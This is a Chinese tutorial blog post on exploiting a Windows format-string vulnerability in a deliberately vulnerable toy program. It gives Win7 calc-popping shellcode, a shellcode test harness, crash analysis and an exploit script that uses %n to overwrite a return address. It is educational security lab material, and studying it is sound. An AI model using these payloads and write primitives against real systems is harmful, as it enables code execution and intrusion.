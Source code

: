 ```yaml
---
layout:     keynote
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
iframe:     ""
navcolor:   "invert"
date:       2016-11-16
author:     "carter"
header-img: "img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
tags:
    - OS
    - Windows
    - pwn
---
```



### 知识点：
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

### 一. 程序代码：

```c++
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char buff[1024];
    FILE*f;
    
    f=fopen("flag.txt","r");
    fread(buff,1024,3,f);
    printf(buff); //触发漏洞
  return 0;
}
```

程序的流程是从flag.txt中读取字符串，再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

### 二. 基本知识：

##### **1. 格式化字符串相关知识**

%x：依次打印出栈上数据
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/1.png)
%100x：指定数据打印时显示长度为100字节

%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

##### **2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴:

HKEY_LOCAL_MACHINE -->  SOFTWARE --> Microsoft --> Windows NT --> CurrentVersion --> AeDebug
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/4.png)
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

##### **3. windows7_32bit 弹计算器shellcode**
```python
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

##### **4.  如何调试shellcode**
```c++
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
    return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了

##### **5. 查看程序开启安全机制**

在immunity Debugger中，使用 
```python
!mona modules
```
可以查看程序加载的各个模块对应开启的安全机制
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/5.png)
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


### 三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/6.png)
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/7.png)
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：

```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```

对比下图，可以验证说法正确性
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/8.png)

### 四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/9.png)
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/10.png)
所以我们的目的就是令：EAX=0x12faf0  ECX=0x12fb48

### 五. 编写漏洞利用脚本
输入构造为：
- shellcode
- 相应多的%x
- 一些%nx来调整输出长度
- 需要被覆盖的地址

**exp1.py**
```python
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
    f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/11.png)
弹出可爱的计算器
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/12.png)

## 六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 --> \x3f
```

**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
[http://bbs.pediy.com/showthread.php?t=213153](http://bbs.pediy.com/showthread.php?t=213153)


